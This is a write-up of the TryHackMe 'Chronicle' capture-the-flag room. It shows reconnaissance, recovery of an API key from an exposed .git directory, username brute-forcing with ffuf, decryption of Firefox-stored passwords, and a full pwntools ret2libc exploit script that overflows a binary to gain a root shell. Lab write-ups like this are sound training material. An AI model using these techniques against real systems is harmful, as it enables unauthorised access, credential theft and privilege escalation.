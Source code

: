 ```yaml
---
title: Chronicle Writeup
published: true
categories: writeups
tags: TryHackMe
challenge: https://tryhackme.com/room/chronicle
---
```

**Challenge link** => [{{ page.challenge }}]({{ page.challenge }})

Today, I'll try a *free* challenge from **0cirius0**

**0cirius0's [twitter](https://twitter.com/0cirius0)**

---
Alright so let's get started by deploying the VM attached to the room.

`nmap result : `
```sh
┌[Gal1leoHackingStation]─[14:27-18/04]─[/home/gal1leo/TryHackMe]
└╼root$nmap -sC -sV 10.10.84.208
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-18 14:27 IST
Nmap scan report for 10.10.84.208
Host is up (0.44s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b2:4c:49:da:7c:9a:3a:ba:6e:59:46:c2:a9:e6:a2:35 (RSA)
|   256 7a:3e:30:70:cf:32:a4:f2:0a:cb:2b:42:08:0c:19:bd (ECDSA)
|_  256 4f:35:e1:33:96:84:5d:e5:b3:75:7d:d8:32:18:e0:a8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8081/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Ok, cool. We've got `ssh` running on port `22` and an `apache` website on port `80`.
The website looks like a good place to start looking for clues.

![](/assets/images/2022-04-18_14-30.png)

When we visit the website, we see something that looks like *professional* web design.
My big brain decided that for some reason "OLD" was the name of a file on the server.

Going to `http://10.10.84.208/OLD` we find nothing useful

![](/assets/images/2022-04-18_14-34.png)

Going to the same url but we write "OLD" in lowercase `http://10.10.84.208/old` we find something more promising

![](/assets/images/2022-04-18_14-36.png)

Contents of note.txt: `Everything has been moved to new directory and the webapp has been deployed`

I moved into the `templates/` directory and start clicking random things hoping they do something <span style="color:red">**(Spoiler alert: they don't seem to be doing anything)**</span> Well, everything seems useless apart from the `Login` button which redirects you to `/login`.

I try going to `http://10.10.84.208/old/templates/login.html` and see something resembling a login form

![](/assets/images/2022-04-18_14-48.png)

I proceed to ~~create~~ attempt to create an account and it doesn't work. I see there's a reference to a page `/forgot.html` and decide to visit it.

![](/assets/images/2022-04-18_14-52.png)

*"Just enter your username below and we'll show you your password"*.
&nbsp;That sounds very convenient. But I don't know any users on this website. Tried `admin` and other guesses, and nothing showed up.

I start feeling like I'm digging into a rabbit hole, and decide to visit whatever is on port `8081` from the nmap output at the start.

![](/assets/images/2022-04-18_14-59.png)

You wouldn't believe it but it looks like an actual working website. Going to the `/forgot` page, we're still not receiving any output.

By inspecting the `POST` request in the Chrome `Network` tab, I realized there was some `api key` missing.

Looking around through the source code, we can see that the key was removed

![](/assets/images/2022-04-18_15-05.png)

Going back to the `/old` directory on port `80` I run a hidden directory scan to see if we ommitted anything

```sh
[Gal1leoHackingStation]─[15:14-18/04]─[/home/gal1leo/TryHackMe]
└╼root$ffuf -u http://10.10.84.208/old/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
Found the `.git` directory. Let's download it on out machine
```sh
┌[Gal1leoHackingStation]─[15:18-18/04]─[/home/gal1leo/TryHackMe]
└╼root$wget -r http://10.10.84.208:80/old/.git
```
running `git log` shows there was some commits done to this repo. Let's check them out. One of them actually leaks the api key.

![](/assets/images/2022-04-18_15-30.png)
 
 Alright, let's get to using it then. For this, I'll use `BurpSuite` so we can intercept the request; modify the api key and then forward it.

 ![](/assets/images/2022-04-18_15-37.png)
 ![](/assets/images/2022-04-18_15-39.png)

In an ideal word, everything would work out perfectly. But not in my world. The user `admin` doesn't exist on the website. Alright. I guess it's time to bruteforce a username. If you have time, you can try doing it with `Burp Suite`. I'll use `ffuf` instead.
```sh
ffuf -fw 2 -w /opt/SecLists/Usernames/Names/names.txt -X POST -d '{"key":"[REDACTED_BECAUSE_I_CAN]"}' -u http://10.10.84.208:8081/api/FUZZ
```
.. and we got a user: `tommy`

![](/assets/images/2022-04-18_15-51.png)

Thanks tommy. We won't use your account for malicious purposes. As I say this, I connect to the ssh server using the credentials we just got.

![](/assets/images/2022-04-18_15-56.png)

running `sudo -l` doesn't yield any results, so let's go exploring. There was nothing interesting to see, only **carlJ**'s home directory, which we were allowed to access. I saw .mozila in his home dir, and wanted to see if maybe we can dump some passwords from it.

I downloaded `https://github.com/unode/firefox_decrypt` on my machine, and downloaded `0ryxwn4c.default-release` from the ssh server.

![](/assets/images/2022-04-18_16-09.png)

ran 
```sh 
python3 /opt/firefox_decrypt/firefox_decrypt.py ./10.10.84.208:8000/0ryxwn4c.default-release/
```
and it asked for a Master password. Tried some basic passwords, and `password1` worked

![](/assets/images/2022-04-18_16-16.png)

Now that we got a password, let's try log in as `carlJ`. We go into the `~/mailing` folder, which we didn't have permission to access and found some sort of program and by the looks of it, we might be able to overflow it 😃.

![](/assets/images/2022-04-18_16-21.png)

Let's try a `ret2libc`

```sh
carlJ@incognito:~/mailing$ ldd smail 
	linux-vdso.so.1 (0x00007ffff7ffa000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff79e2000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd3000)
```

So the address of libc is `0x00007ffff79e2000`. Let's also find out where `system` is so we can call it, and we'll also need to know the location of `/bin/sh`

![](/assets/images/2022-04-18_16-31.png)

exploit.py:
```py            
from pwn import *

p = process('./smail')

libc_base = 0x7ffff79e2000 
system = libc_base + 0x4f550
binsh= libc_base + 0x1b3e1a

POPRDI=0x4007f3

payload = b'A' * 72
payload += p64(0x400556)
payload += p64(POPRDI)
payload += p64(binsh)
payload += p64(system)
payload += p64(0x0)

p.clean()
p.sendline("2")
p.clean()
p.sendline(payload)
p.interactive()

```

![](/assets/images/2022-04-18_16-37.png)

**Nothing was left unrooted**
